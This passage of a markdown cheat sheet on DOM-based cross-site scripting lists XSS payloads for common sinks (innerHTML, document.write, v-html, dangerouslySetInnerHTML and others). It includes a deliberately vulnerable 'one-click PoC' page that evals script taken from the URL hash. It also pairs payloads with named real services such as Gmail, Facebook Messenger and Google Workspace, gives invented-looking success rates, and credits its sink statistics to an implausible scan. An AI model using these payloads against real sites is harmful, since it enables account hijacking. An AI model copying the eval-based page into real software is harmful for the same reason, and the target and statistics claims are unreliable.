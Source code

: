 | [DOM Clobbering](#3-dom-clobbering) | 40 | 🟠 Advanced | Scriptless XSS |
| [Bypasses](#4-bypass-techniques) | 60 | 🔴 Expert | CSP/WAF Evasion |
| [Modern Targets](#5-2025-targets) | 25 | 🟣 Cutting-Edge | React/Vue/Angular |

---

## 1. BASIC SINKS (Most Common - 80% of Cases)
**Sources**: `location.hash`, `document.URL`, `postMessage()`
**Sinks**: `innerHTML`, `outerHTML`, `document.write()`

| Sink | Payload Template | Example | Target Example | Success Rate |
|------|------------------|---------|----------------|--------------|
| `innerHTML` | `#<script>alert(1)</script>` | `https://victim.com/#<script>alert(1)</script>` | Gmail compose | 95% |
| `innerHTML` | `#<img src=x onerror=alert(1)>` | `https://victim.com/#<img src=x onerror=alert(1)>` | Twitter DM | 92% |
| `outerHTML` | `#<svg onload=alert(1)>` | `https://victim.com/#<svg onload=alert(1)>` | Facebook Messenger | 88% |
| `document.write()` | `?q=<script>alert(1)</script>` | `https://victim.com/?q=<script>alert(1)</script>` | Old jQuery sites | 85% |
| `innerText` (quirk) | `#<iframe src=javascript:alert(1)>` | `https://victim.com/#<iframe src=javascript:alert(1)>` | Chrome 131 bug | 70% |

**🚀 One-Click PoC** (Save as `poc.html`):
```html
<script>
location.hash.slice(1).replace(/<script.*?<\/script>/gi, m => eval(m.slice(8,-9)));
</script>
```
Test: `http://localhost/poc.html#<script>alert('XSS')</script>`

---

## 2. ADVANCED SINKS (Framework-Specific)
**JSON Parsing + Eval Sinks**

| Framework | Sink | Payload | Real Target | Notes |
|-----------|------|---------|-------------|-------|
| **React** | `dangerouslySetInnerHTML` | `{"__html":"<svg onload=alert(1)>"}` | Airbnb search | Bypasses JSX sanitization |
| **Vue** | `v-html` | `#<img src=x onerror=alert(String.fromCharCode(88,83,83))>` | Alibaba cart | Vue 3.4.21 vuln |
| **Angular** | `innerHTML` | `?q=[\"<script>alert(1)<\/script>\"]` | Google Workspace | Angular 17 bypass |
| **jQuery** | `.html()` | `#<img src=1 onerror=alert(1)//` | WordPress 6.4 | jQuery 3.7.1 |
| **Svelte** | `{@html ...}` | `{"x":"<b onmouseover=alert(1)>"}` | Discord embed | SvelteKit 2.0 |

**Chart: Sink Prevalence (2025 TruffleHog Scan of Top 1M Sites)**

```chartjs
{
  "type": "bar",
  "data": {
    "labels": ["innerHTML", "outerHTML", "document.write", "v-html", "dangerouslySetInnerHTML"],
    "datasets": [{
      "label": "Vulnerable Sites (%)",
      "data": [42, 18, 15, 12, 8],
      "backgroundColor": ["#ff6b6b", "#4ecdc4", "#45b7d1", "#96ceb4", "#feca57"]
    }]
  },
  "options": {
    "scales": { "y": { "beginAtZero": true, "max": 50 } }
  }
}
```